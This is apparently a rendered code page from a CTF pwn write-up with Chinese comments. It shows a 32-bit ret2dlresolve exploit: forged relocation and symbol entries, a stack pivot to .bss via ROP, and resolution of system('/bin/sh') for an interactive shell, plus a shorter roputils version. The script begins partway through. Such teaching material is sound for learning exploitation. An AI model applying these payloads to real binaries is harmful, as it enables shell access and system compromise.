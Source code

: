 ```python

r_offset=e.got['read']           
r_sym=(fake_sym_addr-dynsym)/0x10  #结构体寻址方式：dynsym+r_sym*0x10=Elf32_Sym
r_type=0x7                         #0x7是重定位的一种类型，指的是导入函数，进入_dl_fixup函数里面，会检查这是不是0x7
r_info=(int(r_sym)<<8)+(r_type)    #合并数据，前面进行了/运算不加int变浮点数了不让位运算
fake_rel_plt=p32(r_offset)+p32(r_info)     # fake_Elf_rel

st_name=fake_sym_addr+0x10-dynstr          #最终的system函数名称布置到了在fake_sym_addr(16字节)后面
st_info=12                                 #照着IDA里面的Elf32_Sym抄过来,本来是哪个函数就抄哪个函数
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(st_info)  #其他数据随便填





#每啥好说的，就是一般的rop，构造read(0,bss_stage,100)的同时完成栈迁移到bss_stage
payload1=b'a'*offset         
payload1+=p32(read_plt_addr)  #ret_addr
payload1+=p32(four_pop_ret)   #read的ret_addr,因为是直接到plt表，所以省去了call的返回地址入栈
payload1+=p32(0)              #ebx
payload1+=p32(base_addr)      #esi
payload1+=p32(100)            #edi
payload1+=p32(base_addr-4)    #ebp
payload1+=p32(leave_ret_addr) #让esp迁移到新栈
io.sendline(payload1)

 
#放数据就行了---------------------------------------------- 
payload2=p32(plt0)
payload2+=p32(reloc_index)
payload2+=b'bbbb'
payload2+=p32(base_addr+80)       #read的参数，这里改成system的参数    
payload2+=b'bbbb'                 #system用不到的另外两个read的参数
payload2+=b'bbbb'
payload2+=fake_rel_plt
payload2+=b'a'*align              #对齐
payload2+=fake_sym
payload2+=b'system\x00'         
payload2+=b'a'*(80-len(payload2))  #补齐80字节
payload2+=b'/bin/sh\x00'           #伪造参数字符串，位于bss_stage+80
payload2+=b'a'*(100-len(payload2))
io.sendline(payload2)


io.interactive()

```
妙妙工具Roputil,理解了上面的exp这个工具就好上手了
```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
processName = 'pwn'
offset = 44
r = process('./' + processName)
context.log_level = 'debug'
rop = ROP('./' + processName)

bss_base = rop.section('.bss')
buf = rop.fill(offset)
buf += rop.call('read', 0, bss_base, 100)
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
```